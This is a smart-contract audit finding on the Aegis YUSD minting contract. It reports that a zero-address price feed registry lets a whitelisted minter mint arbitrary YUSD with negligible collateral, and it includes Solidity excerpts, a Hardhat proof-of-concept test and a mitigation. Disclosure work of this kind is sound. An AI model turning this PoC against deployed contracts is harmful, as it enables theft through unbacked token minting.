 Cheery Indigo Hedgehog

High

# Whitelisted minter can call AegisMinting::mint to mint arbitrary amount of yusd with minimum collateral if AegisMinting::_feedRegistry is address(0)

### Summary

A whitelisted minter can call AegisMinting::mint to mint a large arbitrary amount of yusd with minimum collateral if AegisMinting::_feedRegistry is address(0), due to AegisMinting::mint and  AegisMinting::_calculateMinYUSDAmount implementation

### Root Cause

The root cause is in mint function because of the usage of _calculateMinYUSDAmount that utilizes _getAssetUSDPriceChainlink that returns 0 if AegisMinting::_feedRegistry is address(0):
```solidity
AegisMinting::mint
	AegisMinting::_calculateMinYUSDAmount(order.collateralAsset, order.collateralAmount, order.yusdAmount)
		AegisMinting::_getAssetUSDPriceChainlink(collateralAsset);
```
If AegisMinting::_feedRegistry is address(0):
```solidity
AegisMinting::_getAssetUSDPriceChainlink will return 0

AegisMinting::_calculateMinYUSDAmount(order.collateralAsset, order.collateralAmount, order.yusdAmount)
Will return order.yusdAmount 

AegisMinting::mint will mint:
	yusd.mint(order.userWallet, mintAmount);
```

Ie if AegisMinting::_feedRegistry is address(0) AegisMinting::mint will mint an arbitrary larger value (the mint parameter function call)
https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L239-L242  
Call details:
```solidity
  function mint(
    OrderLib.Order calldata order,
    bytes calldata signature
  ) external nonReentrant onlyWhitelisted(order.userWallet) onlySupportedAsset(order.collateralAsset) {
	//...
@>	uint256 yusdAmount = _calculateMinYUSDAmount(order.collateralAsset, order.collateralAmount, order.yusdAmount);
	//...
	// Take a fee, if it's applicable
	(uint256 mintAmount, uint256 fee) = _calculateInsuranceFundFeeFromAmount(yusdAmount, mintFeeBP);
	//...
@>	yusd.mint(order.userWallet, mintAmount);
}

  function _calculateMinYUSDAmount(address collateralAsset, uint256 collateralAmount, uint256 yusdAmount) internal view returns (uint256) {
@>	(uint256 chainlinkPrice, uint8 feedDecimals) = _getAssetUSDPriceChainlink(collateralAsset);
	if (chainlinkPrice == 0) {
@>		return yusdAmount;
	}
	
  function _getAssetUSDPriceChainlink(address asset) internal view returns (uint256, uint8) {
@>    if (address(_feedRegistry) == address(0)) {
      return (0, 0);
    }
```


### Internal Pre-conditions

1. User with SETTINGS_MANAGER_ROLE sets _feedRegistry variable to address(0)

### External Pre-conditions

None

### Attack Path

1. User with SETTINGS_MANAGER_ROLE sets _feedRegistry variable to address(0)
2. Whitelisted user calls AegisMinting::mint function with a large arbitrary yusd amount  


### Impact

Whitelist user can mint an arbitrary large sum of yusd amount with minimum (almost zero) collateral  


### PoC

The following PoC shows a WL user minting an arbitrary large value of yusd without providing much collateral  

Insert the test case in test file: test/4_aegis_minting.spec.ts  
in #transferToCustody section:
```js
    describe('PoC', () => {
      it.only('Arb yusd minting to sender (order.userWallet) in AegisMinting::mint if chainlink feed is address(0)', async () => {
        const [owner, sender] = await ethers.getSigners()

        const { aegisMintingContract, aegisMintingAddress, assetContract, assetAddress, aegisConfig, yusdContract } = await loadFixture(deployFixture)

        await aegisMintingContract.grantRole(COLLATERAL_MANAGER_ROLE, owner)
        await aegisConfig.setOperator(owner, true)
        await aegisMintingContract.grantRole(SETTINGS_MANAGER_ROLE, owner)
		    await aegisMintingContract.setFeedRegistryAddress(ethers.ZeroAddress);

        await aegisConfig['whitelistAddress(address,bool)'](sender, true)

        await assetContract.mint(sender.address, ethers.parseEther('1'))
        await assetContract.connect(sender).approve(aegisMintingAddress, ethers.parseEther('0.000000000000000001'))

        const collateralAmount = ethers.parseEther('0.000000000000000001')
        const yusdAmount = ethers.parseEther('10000000000000000')

        const blockTime = await time.latest()
        const order = {
          orderType: OrderType.MINT,
          userWallet: sender.address,
          collateralAsset: assetAddress,
          collateralAmount: collateralAmount,
          yusdAmount: yusdAmount,
          slippageAdjustedAmount: yusdAmount,
          expiry: blockTime + 10000,
          nonce: Date.now(),
          additionalData: encodeString(''),
        }
        const signature = await signOrder(order, aegisMintingAddress)

        var yusd_bal_sender_before = await yusdContract.balanceOf(sender.address);

        // Mint tokens first
        await expect(aegisMintingContract.connect(sender).mint(order, signature)).not.to.be.reverted

        var yusd_bal_sender_after = await yusdContract.balanceOf(sender.address);

        console.log("Yusd Balance sender before\t",yusd_bal_sender_before);
        console.log("Yusd Balance sender after\t",yusd_bal_sender_after);

      })
    })
```
Observe that 10000000000000000 of yusd is minted with only 0.000000000000000001 of collateral


### Mitigation

Revert if _feedRegistry is address(0) (only setteable by settings_manager role)  
